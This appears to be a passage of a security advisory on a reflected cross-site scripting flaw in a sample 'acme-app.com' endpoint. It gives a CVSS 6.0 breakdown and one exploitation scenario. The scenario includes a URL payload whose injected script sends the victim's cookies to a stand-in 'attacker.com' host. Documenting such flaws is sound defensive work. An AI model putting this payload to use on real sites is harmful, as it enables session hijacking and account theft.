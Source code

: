 This vulnerability allows attackers to craft malicious URLs containing JavaScript code that, when visited by users, will execute in their browsers within the context of the application. The lack of input validation, output encoding, or Content-Type headers creates a direct path for script injection, potentially leading to session hijacking, sensitive data theft, or unauthorized actions performed on behalf of the victim.

# CVSS
**Score**: 6.0 \
**Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N \
**Severity**: Medium

The Medium severity rating (CVSS score 6.0) is derived from the following factors:

- **Network Attack Vector (AV:N)**: The vulnerability can be exploited remotely over the internet by crafting malicious URLs.

- **Low Attack Complexity (AC:L)**: Exploitation is straightforward, requiring only basic knowledge of HTML and JavaScript to craft an effective XSS payload.

- **No Privileges Required (PR:N)**: An attacker doesn't need any privileges or authentication to exploit the vulnerability.

- **User Interaction Required (UI:R)**: The victim must visit the malicious URL for the attack to succeed, typically through social engineering or phishing.

- **Changed Scope (S:C)**: The vulnerability allows the attacker's code to execute in the victim's browser in the context of the vulnerable application, effectively changing the security scope from the server to the client.

- **Low Confidentiality Impact (C:L)**: The attacker can access data available in the victim's browser context, potentially including cookies, authentication tokens, and other sensitive information displayed on the page.

- **Low Integrity Impact (I:L)**: The attacker can modify content displayed to the user and potentially initiate actions as the victim within the application.

- **No Availability Impact (A:N)**: The vulnerability doesn't typically impact the availability of the application itself.

While this is rated as Medium severity, it's important to note that in a real-world context, the business impact could be more significant if the application processes or displays sensitive data, handles authentication, or allows critical actions that could be performed via XSS.

# Exploitation Scenarios
**Scenario 1: Cookie Theft and Session Hijacking**
An attacker crafts a malicious URL pointing to the vulnerable endpoint with a JavaScript payload designed to steal cookies:
```
https://acme-app.com/vulnerable?input=<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>

```
The attacker then distributes this URL via phishing emails to Acme Corp employees or customers. When a victim clicks the link, their browser renders the page and executes the injected script, sending their session cookies to the attacker's server. With these cookies, the attacker can hijack the victim's session and gain unauthorized access to their account.
